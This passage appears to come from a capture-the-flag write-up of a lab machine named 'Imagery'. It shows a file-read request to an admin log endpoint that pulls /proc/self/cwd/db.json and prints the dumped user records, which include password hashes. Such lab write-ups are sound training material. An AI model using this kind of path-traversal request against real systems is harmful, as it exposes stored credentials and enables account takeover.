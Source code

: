 There is one in `db.json`
visit `/proc/self/cwd/db.json`
You can get all website users and their password hashes 
```html
GET /admin/get_system_log?log_identifier=/proc/self/cwd/db.json HTTP/1.1
```
![](<./attachments/Imagery-15.png>)
**Usernames and Hashes**
```txt
"users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
```
![](<./attachments/Imagery-17.png>)
```txt
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
```